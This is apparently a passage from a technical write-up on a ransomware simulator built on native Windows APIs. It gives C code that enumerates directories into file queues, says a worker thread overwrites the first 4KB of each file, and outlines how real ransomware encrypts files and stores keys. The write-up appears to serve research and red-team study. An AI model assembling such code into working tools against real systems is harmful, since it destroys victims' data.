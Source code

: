 ```
            QUEUE_ITEM* newItem = (QUEUE_ITEM*)RtlAllocateHeap(g_Heap, HEAP_ZERO_MEMORY, sizeof(QUEUE_ITEM));
            if (!newItem) {
                RtlFreeHeap(g_Heap, 0, fullPathBuf);
                status = STATUS_NO_MEMORY;
                break;
            }

            newItem->Path.Buffer = fullPathBuf;
            newItem->Path.Length = (USHORT)newLen;
            newItem->Path.MaximumLength = (USHORT)(newLen + sizeof(WCHAR));

            if (isDir) {
                InterlockedIncrement(&g_OutstandingDirectories);
                Enqueue(&g_DirectoryQueue, newItem);
            }
            else {
                Enqueue(&g_FileQueue, newItem);
            }

            if (entry->NextEntryOffset == 0) break;
            ptr += entry->NextEntryOffset;
        }

        if (!NT_SUCCESS(status)) break;
    }

    NtClose(hDir);
    RtlFreeHeap(g_Heap, 0, buffer);
    return status;
}
```

Our worker thread follows a similar logic, dequeuing an item containing the path to the file, and handling it - in this case just NULLing out the first minimum(file size, 4KB) of the file, simulating ransomware. This part was briefly implemented as it frankly the least interesting part. Actual ransomware would encrypt the first 4KB or every other 4KB of a file, and then append a structure to the end of the file containing the file encryption information, often an asymmetric key encrypted with their public key - something only they can read back and decrypt - and obviously renaming it.

What follows is the demonstration of the file system enumeration, and file "encryption" with only native APIs.

```
#define UMDF_USING_NTSTATUS
#include <Windows.h>
#include <ntstatus.h>
#include <winternl.h>

#pragma comment(lib, "ntdll.lib")

typedef struct _QUEUE_ITEM {
    struct _QUEUE_ITEM* Next;
    UNICODE_STRING Path;
} QUEUE_ITEM, * PQUEUE_ITEM;

typedef struct _QUEUE {
    PQUEUE_ITEM Head;
    PQUEUE_ITEM Tail;
    RTL_SRWLOCK Lock;
    RTL_CONDITION_VARIABLE NonEmpty;
} QUEUE, * PQUEUE;

PVOID g_Heap;
```